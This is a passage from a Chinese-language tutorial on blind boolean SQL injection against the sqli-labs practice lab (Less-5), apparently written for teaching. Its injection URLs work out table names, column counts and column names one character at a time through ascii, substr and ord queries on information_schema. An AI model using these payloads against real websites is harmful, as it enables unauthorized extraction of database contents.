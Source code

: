 如何猜测第二张表的第二个字母？

第二个表是referers，ascii码中e是101，那么上面的等于101页面回显正常。

URL：http://192.168.10.150/sqlilabs/Less-5/?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 1,1),2,1))=101--+

![img](assets/OsGkDfE2ZU4zngP.jpg) 

修改limit 1,1 来控制第几个表，修改后面的2,1来控制第几个字符。

#### 3.3.5.8.**猜测数据库列的数量**

在users中存在id、username、password字段，0，1是第一个所以是等于2。

URL：http://192.168.10.150/sqlilabs/Less-5/?id=1' and length((select column_name from information_schema.columns where table_schema='security' and table_name='users' limit 0,1))=2--+

![img](assets/6ueACI2PvT8ychY.jpg) 

#### 3.3.5.9.**猜测数据库列名**

如何猜测第二列第一个字母？

在users中第二列是username所以第一个就是u，也就是117。

最后面的1，1），1，1 第一个1控制第几列，从0开始。第三个1控制字段第几个字母。从1开始。

URL：http://192.168.10.150/sqlilabs/Less-5/?id=1' and ord(substr((select column_name from information_schema.columns where table_schema='security' and table_name='users' limit 1,1),1,1))=117--+

![img](assets/a71hQInCTPB4gLe.jpg) 
